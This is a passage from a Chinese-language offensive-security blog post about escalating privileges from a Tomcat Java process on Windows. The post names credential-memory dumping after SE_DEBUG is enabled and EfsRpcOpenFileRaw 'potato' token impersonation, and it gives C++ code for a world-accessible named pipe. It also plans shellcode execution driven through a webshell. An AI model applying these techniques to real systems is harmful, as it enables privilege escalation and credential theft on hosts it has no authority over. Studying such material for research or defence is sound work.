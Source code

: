 ```cpp
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

首先判断权限是否是管理员或者SYSTEM权限，然后尝试启用SE_DEBUG权限，最后才进行转储，代码我上传到了Github仓库：[https://github.com/Rvn0xsy/j2osWin](https://github.com/Rvn0xsy/j2osWin)

## 0x06 将Java进程进行权限提升

Tomcat 有三种权限运行模式：

![](https://images.payloads.online/2022-08-11-22-07-36.png)

● Local Service
● Network Service
● Users
默认安装好的Tomcat会自动运行在Local Service账户下，意味着权限很低，如果目标安装了数字杀毒，就更加难以实现提权。

解决办法：

1. 利用System.LoadLibrary技术在Tomcat本身进程种执行任意代码
2. 利用执行任意代码的特点来进行土豆提权
3. 利用模拟Token创建执行Shellcode的线程，所有的交互通过Webshell与系统管道通信实现

### 0x06.1 EfsRpcOpenFileRaw 提权

土豆提权的原理：在Windows操作系统中，如果当前账户是Local Service/Network Service，那么大部分情况下会有一个令牌模拟的权限，当高权限连接到Service账户开启的服务时，Service账户就可以通过令牌模拟获取客户端的权限来执行任意代码。

注意：令牌模拟仅是将当前线程的Token进行临时替换为客户端的令牌，其次，土豆提权仅限于本地操作系统才能工作，域内一般发起请求的都是域账户，或有同一账户体系的可信网络内。

土豆提权中有一个关于[MS-EFSR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) RPC接口的利用方式，通过创建一个命名管道，然后调用EfsRpcOpenFileRaw让SYSTEM特权账户连接到命名管道实现提权。[@zcgonvh](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs) 公开了一个C#的利用代码，并且我还请教了他，这里感谢头像哥的解答。

创建命名管道部分实现代码：

```cpp
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION))
	{
		wprintf(L"InitializeSecurityDescriptor() failed. Error: %d - ", GetLastError());
		LocalFree(pwszPipeName);
		return;
	}
	// 设置安全描述符
	if (!ConvertStringSecurityDescriptorToSecurityDescriptorW(L"D:(A;OICI;GA;;;WD)", 1, &((&sa)->lpSecurityDescriptor), NULL))
	{
		wprintf(L"ConvertStringSecurityDescriptorToSecurityDescriptor() failed. Error: %d\n", GetLastError());
		LocalFree(pwszPipeName);
		return;
	}
	// 创建管道
	hPipe = CreateNamedPipe(pwszPipeName, PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa);
	if (hPipe == INVALID_HANDLE_VALUE) {
		return;
	}
	
	wprintf(L"[*] NamedPipe '%ls' listening...\n", pwszPipeName);
	// 一直等待客户端连接，方便持续调用
```